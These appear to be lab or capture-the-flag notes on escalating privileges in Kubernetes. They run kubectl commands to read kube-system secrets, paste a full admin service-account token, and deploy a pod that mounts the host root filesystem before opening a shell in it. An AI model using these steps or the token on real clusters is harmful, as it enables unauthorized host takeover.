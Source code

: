 ```
# Listing other things
./kubectl auth can-i --list -n kube-system
secrets

./kubectl get secrets -n kube-system

# List another token
./kubectl describe secrets c-admin-token-b47f7 -n kube-system

echo 'eyJhbGciOiJSUzI1NiIsImtpZCI6InRqSFZ0OThnZENVcDh4SXltTGhfU0hEX3A2UXBhMG03X2pxUVYtMHlrY2cifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLWI0N2Y3Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIzMTc3OGQxNy05MDhkLTRlYzMtOTA1OC0xZTUyMzE4MGIxNGMiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.fka_UUceIJAo3xmFl8RXncWEsZC3WUROw5x6dmgQh_81eam1xyxq_ilIz6Cj6H7v5BjcgIiwsWU9u13veY6dFErOsf1I10nADqZD66VQ24I6TLqFasTpnRHG_ezWK8UuXrZcHBu4Hrih4LAa2rpORm8xRAuNVEmibYNGhj_PNeZ6EWQJw7n87lir2lYcqGEY11kXBRSilRU1gNhWbnKoKReG_OThiS5cCo2ds8KDX6BZwxEpfW4A7fKC-SdLYQq6_i2EzkVoBg8Vk2MlcGhN-0_uerr6rPbSi9faQNoKOZBYYfVHGGM3QDCAk3Du-YtByloBCfTw8XylG9EuTgtgZA' > token

./kubectl --token=$(cat /tmp/token) auth can-i create pods -n kube-system

./kubectl --token=$(cat /tmp/token) get pods

./kubectl --token=$(cat /tmp/token) get pod devnode-deployment-776dbcf7d6-7gjgf -o yaml
```

Create static pod.
```yaml
apiVersion: v1 
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: evil0xdf
    image: localhost:5000/dev-alpine
    command: ["/bin/sh"]
    args: ["-c", "sleep 300000"]
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

Execute it.
```
./kubectl --token=$(cat /tmp/token) apply -f pod.yaml

./kubectl exec alpine --stdin --tty -n kube-system --token=$(cat /tmp/token) -- /bin/sh
```
